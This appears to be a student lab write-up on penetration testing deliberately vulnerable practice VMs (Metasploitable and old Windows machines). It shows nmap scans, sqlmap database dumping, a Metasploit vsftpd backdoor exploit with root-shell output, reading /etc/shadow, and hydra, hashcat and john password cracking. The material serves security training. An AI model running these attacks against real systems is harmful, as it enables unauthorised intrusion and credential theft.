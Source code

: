 # ЛР6

## nmap
```
# scanning for open ports
nmap -p- -O -sV 192.168.37.1/24

## nmap-vulscan

# installation
cd /usr/share/nmap/scripts/
git clone https://github.com/scipag/vulscan.git
ln -s `pwd`/scipag_vulscan /usr/share/nmap/scripts/vulscan 
cd vulscan/utilities/updater/
chmod +x updateFiles.sh
./updateFiles.sh

# scanning cve
nmap --script vulscan/ --script-args vulscandb=cve.csv -sV -oN 101.txt $IP

# enumerate users
nmap -script smb-enum-users.nse -p 445 192.168.37.101

# enumerate auth methods supported
nmap --script ssh-auth-methods $IP
```

## metasploitable
* Link download metasploitable VM `https://sourceforge.net/projects/metasploitable/`
* Metasploitable/SSH/Exploits
`https://charlesreid1.com/wiki/Metasploitable/SSH/Exploits`

* Metasploitable/NFS
`https://charlesreid1.com/wiki/Metasploitable/NFS`

* How to add a module to Metasploit from Exploit-DB
`https://kalinull.medium.com/how-to-add-a-module-to-metasploit-from-exploit-db-d389c2a33f6d`

* The best Beginner guide to hacking Metasploitable2 with Kali Linux
`https://www.youtube.com/playlist?list=PLEAkrOvgdk5RnMOqvQmMeAHl6UFJNiUcs`

* Vulnhub — Kiopitrix Level 1.2(#3) Write Up
`https://medium.com/@tnvo/vulnhub-kiopitrix-level-1-2-3-write-up-7147476d5efa`

### Opening ports
```                                          
PORT      STATE SERVICE     VERSION                                                          
21/tcp    open  ftp         vsftpd 2.3.4                                                     
22/tcp    open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)                     
23/tcp    open  telnet      Linux telnetd                                                    
25/tcp    open  smtp        Postfix smtpd                                                    
53/tcp    open  domain      ISC BIND 9.4.2                                                   
80/tcp    open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)                              
111/tcp   open  rpcbind     2 (RPC #100000)                                                  
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp   open  exec        netkit-rsh rexecd
513/tcp   open  login?
514/tcp   open  shell       Netkit rshd
1099/tcp  open  java-rmi    GNU Classpath grmiregistry
1524/tcp  open  bindshell   Metasploitable root shell
2049/tcp  open  nfs         2-4 (RPC #100003)
2121/tcp  open  ftp         ProFTPD 1.3.1
3306/tcp  open  mysql       MySQL 5.0.51a-3ubuntu5
3632/tcp  open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
5432/tcp  open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp  open  vnc         VNC (protocol 3.3)
6000/tcp  open  X11         (access denied)
6667/tcp  open  irc         UnrealIRCd
6697/tcp  open  irc         UnrealIRCd
8009/tcp  open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp  open  http        Apache Tomcat/Coyote JSP engine 1.1
8787/tcp  open  drb         Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)
38446/tcp open  java-rmi    GNU Classpath grmiregistry
43675/tcp open  status      1 (RPC #100024)
57643/tcp open  mountd      1-3 (RPC #100005)
60712/tcp open  nlockmgr    1-4 (RPC #100021)
MAC Address: 00:0C:29:60:20:56 (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### Port 80 exploitation
```
nikto -h $IP
# find the available databases:
sqlmap -u "http://192.168.37.101/gallery/gallery.php?id=1" — dbs
sqlmap -u "http://192.168.37.101/gallery/gallery.php?id=1” -p id — tables -D gallery
# dump all entries in the dev_account table:
sqlmap -u “http://192.168.37.101/gallery/gallery.php?id=1" -p id -T dev_accounts –dump

OR 

http://192.168.37.101
http://192.168.37.101/mutillidae/robots.txt
http://192.168.37.101/mutillidae/passwords
```

### Exploitng Port 21 FTP
```
# run postgresql sever
service postgresql start
# search for version of ftp server
msf6 > search vsftpd 2.3.4 
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.37.101
RHOSTS => 192.168.37.101
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.168.37.101:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.37.101:21 - USER: 331 Please specify the password.
[+] 192.168.37.101:21 - Backdoor service has been spawned, handling...
[+] 192.168.37.101:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.37.105:45905 -> 192.168.37.101:6200) at 2022-11-24 20:44:32 +0300

whoami
root
sudo grep msfadmin /etc/shadow
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:14684:0:99999:7:::
```

## Cracking password
how to HACK a password // password cracking with Kali Linux and HashCat
`https://www.youtube.com/watch?v=z4_oqTZJqCo`
```
# using hydra for bruteforce-attack
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://$IP -t 41221
# using hashcat 
sudo hashcat -a 0 -m 500 hashes.txt /usr/share/wordlists/rockyou.txt 
# using john the ripper
john --format=md5crypt hashes.txt
```

## Windows XP
* Link download metasploitable VM `https://archive.org/details/WinXPProSP3Russian`

### Opening ports

```
PORT     STATE    SERVICE         VERSION
110/tcp  filtered pop3
135/tcp  open     msrpc           Microsoft Windows RPC
139/tcp  open     netbios-ssn     Microsoft Windows netbios-ssn
445/tcp  open     microsoft-ds    Microsoft Windows XP microsoft-ds
548/tcp  filtered afp
587/tcp  filtered submission
1025/tcp open     msrpc           Microsoft Windows RPC
1029/tcp filtered ms-lsa
1720/tcp filtered h323q931
1723/tcp filtered pptp
2717/tcp filtered pn-requester
5000/tcp open     upnp?
8081/tcp filtered blackice-icecap
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.93%I=2%D=11/26%Time=6381DAB9%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(GetReque
SF:st,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(RTSPRequest,1C,"H
SF:TTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n");
MAC Address: 00:0C:29:52:71:FE (VMware)
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp
```
## Windows Server 2003
* Link download metasploitable VM `https://archive.org/details/WinServer2003EnterpriseEditionSP1RUS`

### Opening ports
```
PORT     STATE    SERVICE         VERSION
53/tcp   open     domain          Simple DNS Plus
88/tcp   open     kerberos-sec    Microsoft Windows Kerberos (server time: 2022-11-26 09:22:02Z)
135/tcp  open     msrpc           Microsoft Windows RPC
139/tcp  open     netbios-ssn     Microsoft Windows netbios-ssn
389/tcp  open     ldap            Microsoft Windows Active Directory LDAP (Domain: lab6.local, Site: Default-First-Site)
444/tcp  filtered snpp
445/tcp  open     microsoft-ds    Microsoft Windows 2003 or 2008 microsoft-ds
515/tcp  filtered printer
587/tcp  filtered submission
1025/tcp open     msrpc           Microsoft Windows RPC
1027/tcp open     ncacn_http      Microsoft Windows RPC over HTTP 1.0
1029/tcp filtered ms-lsa
3000/tcp filtered ppp
8000/tcp filtered http-alt
8081/tcp filtered blackice-icecap
MAC Address: 00:0C:29:9B:5E:FC (VMware)
Service Info: Host: DC-WIN2003; OS: Windows; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2003
```